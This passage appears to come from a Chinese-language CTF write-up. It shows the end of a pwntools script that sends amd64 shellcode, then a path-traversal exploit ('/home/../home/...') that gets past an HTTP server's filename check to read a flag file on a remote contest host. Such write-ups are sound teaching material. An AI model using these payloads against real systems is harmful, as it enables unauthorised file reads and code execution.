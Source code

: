 ```python
mov rax, 1;
syscall;
'''
shellcode3= asm(shellcode3, arch = 'amd64')
shellcode2 = shellcode2 + shellcode3
p.send(shellcode1)
sleep(0.5)
p.send(shellcode2)
flag = p.recv(0x60)
print(flag)

```

# Easy HTTPd | limiter | done

文件会在一个端口监听接收数据，并对收的数据有要求，最后会把 GET 后面的路径用 open 打开并且打印其中的值，但假如路径
为/home/minl/flag 则不会 open 并打印，传入的路径改为/home/../home/minl/flag 则能绕过检查，直接获得 flag

以下为 exp：

```python

#! python3
from pwn import *
#p = remote('172.17.0.2', 2048)
p = remote('pwn.archive.xdsec.chall.frankli.site',10084)
sleep(1)

payload = b'GET /home/../home/minil/flag\r\nUser-Agent: MiniL\r\n\r\n'
p.send(payload)
a = p.recv(50)
print(a)

```
